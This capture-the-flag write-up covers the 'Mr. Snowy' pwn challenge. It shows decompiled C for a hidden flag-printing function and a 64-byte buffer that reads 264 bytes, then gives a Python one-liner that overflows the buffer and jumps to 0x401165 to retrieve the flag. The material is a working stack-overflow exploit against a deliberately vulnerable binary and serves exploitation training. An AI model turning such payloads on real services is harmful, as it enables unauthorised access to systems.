



# Pwn :: Mr. Snowy

### Challenge Files: [pwn_mr_snowy.zip](pwn_mr_snowy.zip)

For this challenge, we are provided with an executable, **mr_snowy**, an example flag.txt, and also a networked service to connect to. Running the program shows a little text adventure game involving a snowman that is a little *sus*. However, you find that basically any available choice runs into a deadend. So there has to be some way to get where we wanna be.



Opening the executable in Ghidra, we can see a function called **deactivate_camera()** that prints the flag, however it is not referenced anywhere else in the program.

```c 
void deactivate_camera(void)

{
  char acStack104 [48];
  FILE *local_38;
  char *local_30;
  undefined8 local_28;
  int local_1c;
  
  local_1c = 0x30;
  local_28 = 0x2f;
  local_30 = acStack104;
  local_38 = fopen("flag.txt","rb");
  if (local_38 == (FILE *)0x0) {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n",1,0x3f,stdout);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  fgets(local_30,local_1c,local_38);
  puts("\x1b[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ",1,0x3a,stdout);
  puts(local_30);
  fclose(local_38);
  return;
}
```

So this seems like a classic target for a buffer overflow to redirect execution to the target function.

The vulnerability comes in the **investigate()** function, where the program tries to read 264 bytes from stdin into a buffer that is only 64 bytes:

```c 
void investigate(void)

{
  int iVar1;
  char local_48 [64];  // <-------- buffer
  
  fflush(stdout);
  printstr(&DAT_00401878);
  fflush(stdout);
  read(0,local_48,0x108);    // <--------- too big
  iVar1 = atoi(local_48);
  if (iVar1 == 1) {
    puts("\x1b[1;31m");
    printstr("[!] You do not know the password!\n[-] Mission failed!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  iVar1 = atoi(local_48);
  if (iVar1 == 2) {
    puts("\x1b[1;31m");
    printstr(
            "[!] This metal seems unbreakable, the elves seem to have put a spell on it..\n[-] Mission failed!\n"
            );
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  fflush(stdout);
  puts("\x1b[1;31m");
  fflush(stdout);
  puts("[-] Mission failed!");
  fflush(stdout);
  return;
}
```

So the payload needs to go to the investigate menu, overflow the buffer, and then redirect the return to the target function which is at 0x401165 (they're nice and don't use ASLR)

For this I used:

```
python3 -c "print('1\x00'+'A'*64+'\x00'*8+'\x65\x11\x40\x00',end='')" | ./mr_snowy
```

The first 1 and null byte are read as a C-string and advance us to the next menu, then we fill the buffer, plus 8 bytes to reach the return address, and then our target address function in reverse byte order. Notice I made sure not to print a newline (since that goes to the payload as well).



Sending this same payload to the network service we're trying to pwn, has the same result but gives us the real flag:



```HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh} ```
